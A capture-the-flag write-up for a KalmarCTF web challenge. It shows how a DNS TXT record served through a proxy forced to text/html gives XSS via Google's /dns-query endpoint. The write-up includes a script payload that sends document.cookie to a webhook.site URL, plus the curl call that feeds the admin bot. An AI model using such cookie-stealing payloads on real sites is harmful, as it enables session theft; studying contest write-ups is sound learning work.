




### Initial Look

We are given a `handout.zip` to start with that extracts to a basic nginx application with an admin bot. The flag is stored in a cookie of the admin bot:
```js
const express = require('express');
const puppeteer = require('puppeteer');
const app = express();

const FLAG = process.env.FLAG || 'kalmar{test_flag}';
const DOMAIN = process.env.DOMAIN || 'http://proxy/';

app.use(express.json());

function sleep(ms) {
    return new Promise(res => setTimeout(res, ms));
}

async function visitUrl(url) {
  const browser = await puppeteer.launch({
    headless: 'new',
    args: ['--no-sandbox', '--disable-setuid-sandbox']
  });

  try {
    const page = await browser.newPage();

    // Set flag cookie
    await page.setCookie({
      name: 'flag',
      value: FLAG,
      domain: new URL(DOMAIN).hostname,
    });

    await page.goto(url, {
      waitUntil: 'networkidle0',
    });
    await sleep(1000);

  } catch (err) {
    console.error('Error visiting page:', err);
  } finally {
    await browser.close();
  }
}

app.post('/report', async (req, res) => {
  const { url } = req.body;
  
  if (!url || typeof url !== 'string' || !url.startsWith(DOMAIN)) {
    return res.status(400).json({ error: `Invalid URL. Url should be a string and start with ${DOMAIN}` });
  }

  try {
    await visitUrl(url);
    res.json({ success: true });
  } catch (err) {
    res.status(500).json({ error: 'Failed to visit URL' });
  }
});

const PORT = process.env.PORT || 3000;
app.listen(PORT, () => {
  console.log(`Adminbot listening on port ${PORT}`);
});
```

Initial interests regarding the admin bot:
- Has `--no-sandbox`, is using `puppeteer`.
- The cookie is set before visiting the page.
- The bot will only visit URLs on the specified `DOMAIN`.

The nginx configuration has some points of interest as well:
```
events {
  worker_connections 1024;
}

http {
  server {
    listen 80;
        
    location / {
      proxy_pass https://dns.google;
      add_header Content-Type text/html always;
    }
    
    location /report {
      proxy_pass http://adminbot:3000;
    }
  }
}
```
- The `dns.google` proxy returns only `text/html` content types, so if we can find what would be XSS on the wrong content type, we have achieved XSS and can steal the cookies.

### The Hunt

Looking at the main page this is what is visible:


It doesn't have a lot to offer, and the functionality is limited:
- `/cache` has the ability to flush cache
- `/query` queries domains

Doing a basic query for my personal domain (seall.dev), we get this as an example output:



It is fairly bare-bones in terms of functionality and with proper filtering for XSS. We are revealed a new endpoint though: `/resolve`.

The screenshot contains the URL to `dns.google`: `https://dns.google/resolve?name=seall.dev&type=A`.

But, it's a proxy so we can use that endpoint on our proxy: `https://dnxss.chal-kalmarc.tf/resolve?name=seall.dev&type=A`!



Now we are rendering JSON content as HTML! I try to add a record here to achieve XSS, but it won't work due to filtering...

I them do some research into DNS-over-HTTP as a protocol, and I find some [documentation](https://developers.google.com/speed/public-dns/docs/doh) on how it works! This nets me the endpoint `/dns-query`!

> Note: During the CTF I did not need to find the developer documentation (that is for people learning from the writeup for what to do), instead a teammate (Solopie) recommended [this challenge writeup](https://ctftime.org/writeup/36743) which mentions the `/dns-query` endpoint and reminded me of it.

### XSS

The response is still forced to `text/html`, maybe it is not filtered?

I start by making a record on my domain `xss.seall.dev`. A `TXT` record with the contents `<script>alert(1)</script>`.

Utilising a Python script, I generate a valid `/dns-query` URL.

```python
#!/usr/bin/env python3
import base64
import dns.message
import dns.rdatatype

def main():
    domain = "xss.seall.dev"
    dns_query_url = "https://dnxss.chal-kalmarc.tf/dns-query"
    
    query = dns.message.make_query(domain, dns.rdatatype.TXT)
    
    wire_query = query.to_wire()
    
    encoded_query = base64.b64encode(wire_query).decode('utf-8')
    
    headers = {
        "Accept": "application/dns-message",
        "Content-Type": "application/dns-message"
    }
    full_get_uri = f"{dns_query_url}?dns={encoded_query.replace('=','')}"
    print(full_get_uri)

if __name__ == "__main__":
    main()
```

I execute the script to get my URL:
```bash
$ python3 script.py
https://dnxss.chal-kalmarc.tf/dns-query?dns=F8ABAAABAAAAAAAAA3hzcwVzZWFsbANkZXYAABAAAQ
```



Bingo!

### Stealing from the 🍪 jar

Now we can set up an exfiltration payload in a DNS record, using a free webhook.site we can send the cookies over (Base64 encoded):
```html
<script>fetch(`https://webhook.site/...?${btoa(document.cookie)}`)</script>
```

We can then use the script to generate our URL:
```bash
$ python3 script.py
https://dnxss.chal-kalmarc.tf/dns-query?dns=F8ABAAABAAAAAAAAA3hzcwVzZWFsbANkZXYAABAAAQ
```

Send the URL we generated to the admin bot:
```bash
$ curl https://dnxss.chal-kalmarc.tf/report -H "Content-Type: application/json" -d  '{"url":"http://proxy/dns-query?dns=..."}'
{"success":true}
```

We get a response on webhook.site after some delay:
```
https://webhook.site/...?ZmxhZz1rYWxtYXJ7dGhhdF9jb250ZW50X3R5cGVfaGVhZGVyX2lzX2RvaW5nX3NvbWVfaGVhdnlfbGlmdGluZyFfZGlkX3lvdV91c2VfZG5zLXF1ZXJ5X29yX3Jlc29sdmU/fQ==
```

We can then Base64 decode that string (CyberChef, Dcode.fr, `base64` util, whatever) to get the flag.
```
flag=kalmar{that_content_type_header_is_doing_some_heavy_lifting!_did_you_use_dns-query_or_resolve?}
```

Flag: `kalmar{that_content_type_header_is_doing_some_heavy_lifting!_did_you_use_dns-query_or_resolve?}`